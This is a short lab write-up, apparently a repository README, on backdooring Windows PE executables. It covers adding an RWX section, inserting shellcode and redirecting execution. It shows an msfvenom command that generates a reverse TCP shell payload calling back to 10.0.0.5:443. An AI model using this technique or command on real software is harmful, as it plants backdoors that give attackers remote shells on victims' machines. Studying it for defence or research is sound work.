 # Backdooring PE Files with Shellcode
*The purpose of this lab is to learn the Portable Executable (PE) backdooring technique by adding a new readable/writable/executable code section with our malicious shellcode to any portable executable file.*

*High level process of this technique:*

*-Add a new RWX PE section, big enough to hold our shellcode, to any .exe file*  
*-Generate shellcode*  
*-Add shellcode to the newly created PE section*  
*-Redirect execution flow of the .exe file being backdoored to the shellcode*  
*-Redirect execution flow back to the legitimate .exe instructions*  

# Generate Shellcode
*First of, let's generate the shellcode so we know how many bytes of space we will need in the new PE section:*

```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C```
![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/fb73271e-7bcc-4e0f-bf7b-a0dab96a4d04)  
*Note that the shellcode size is 324 bytes - the new PE section will have to be at least that big.*
